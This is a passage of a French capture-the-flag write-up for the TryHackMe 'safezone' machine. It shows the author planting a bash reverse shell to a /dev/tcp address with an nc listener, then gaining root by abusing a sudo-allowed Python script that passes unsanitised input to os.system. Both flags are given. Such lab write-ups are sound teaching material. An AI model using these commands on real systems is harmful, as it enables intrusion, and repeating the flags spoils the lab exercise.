21:07:35.423565 IP safezone.thm > kali: ICMP echo request, id 2325, seq 4, length 64
21:07:35.423602 IP kali > safezone.thm: ICMP echo reply, id 2325, seq 4, length 64
21:07:36.421619 IP safezone.thm > kali: ICMP echo request, id 2325, seq 5, length 64
21:07:36.421664 IP kali > safezone.thm: ICMP echo reply, id 2325, seq 5, length 64
```

Oui ça fonctione il communique bien.  



On remarque que si on essai de faire passer un reverse shell, la page nous supprime des mots.  

```bash
files@safezone:~$ cd /tmp
files@safezone:/tmp$ echo "bash -c 'exec bash -i &>/dev/tcp/10.9.228.66/666 <&1'" >> shell.sh
files@safezone:/tmp$ chmod +x shell.sh
```

On crée un reverse shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 666
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::666
Ncat: Listening on 0.0.0.0:666
```

On écoute sur le port 666 pour avoir le shell.   



On exécute le reverse shell.   

**user flag**


```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 666
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::666
Ncat: Listening on 0.0.0.0:666
Ncat: Connection from 10.10.220.78.
Ncat: Connection from 10.10.220.78:56608.
bash: cannot set terminal process group (546): Inappropriate ioctl for device
bash: no job control in this shell
id
uid=1000(yash) gid=1000(yash) groups=1000(yash),4(adm),24(cdrom),30(dip),46(plugdev),113(lpadmin),114(sambashare)
yash@safezone:/opt$ cd ~     
cd ~
yash@safezone:~$ cat flag.txt
cat flag.txt
THM{c296539f3286a899d8b3f6632fd62274}
```

On obtient un shell avec les droits yash.   
On lit le fichier flag.txt.    
Le flag est : THM{c296539f3286a899d8b3f6632fd62274}    

**root flag**

```bash
yash@safezone:~$ cat flag.txt
cat flag.txt
THM{c296539f3286a899d8b3f6632fd62274}
yash@safezone:~$ sudo -l
sudo -l
Matching Defaults entries for yash on safezone:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User yash may run the following commands on safezone:
    (root) NOPASSWD: /usr/bin/python3 /root/bk.py

yash@safezone:~$ cat /root/bk.py
cat /root/bk.py
cat: /root/bk.py: Permission denied
```

On voit que l'on peut exécuter /root/bk.py avec les droits root.   
Malheureusement on peut pas avoir des informations sur le fichier bk.py

```bash
sudo -u root /usr/bin/python3 /root/bk.py
Enter filename: 
Enter destination: 
Enter Password: 
Usage: sshpass [-f|-d|-p|-e] [-hV] command parameters
   -f filename   Take password to use from file
   -d number     Use number as file descriptor for getting password
   -p password   Provide password as argument (security unwise)
   -e            Password is passed as env-var "SSHPASS"
   With no parameters - password will be taken from stdin

   -P prompt     Which string should sshpass search for to detect a password prompt
   -v            Be verbose about what you're doing
   -h            Show help (this screen)
   -V            Print version information
At most one of -f, -d, -p or -e should be used
```

Quand on met rien dans les champs on obtient une erreure qui nous indique le scripte python exécute sshpass. 

```bash
sudo -u root /usr/bin/python3 /root/bk.py
Enter filename: /root/bk.py
Enter destination: /home/yash
Enter Password: 1234

ls
bk.py
flag.txt
yash@safezone:~$ cat bk.py
cat bk.py
import subprocess
import os
file = input("Enter filename: ")
location = input("Enter destination: ")
psswd = input("Enter Password: ")
#subprocess.run(["sshpass -p",psswd,"scp","-o","trictHostKeyChecking=no",file,location],shell=True)
os.system("sshpass -p "+psswd+" scp -o StrictHostKeyChecking=no "+file+" "+location+" 2>/dev/null")

```

On voit que l'on récupérer un fichier et le lire.  

```bash
yash@safezone:~$ sudo -u root /usr/bin/python3 /root/bk.py
sudo -u root /usr/bin/python3 /root/bk.py
Enter filename: /root/root.txt
Enter destination: /home/yash
Enter Password: 1234
yash@safezone:~$ cat root.txt
cat root.txt
THM{63a9f0ea7bb98050796b649e85481845}
```

On récupére le fichier root.txt et on le lit.  
On a le flag qui est : THM{63a9f0ea7bb98050796b649e85481845}   

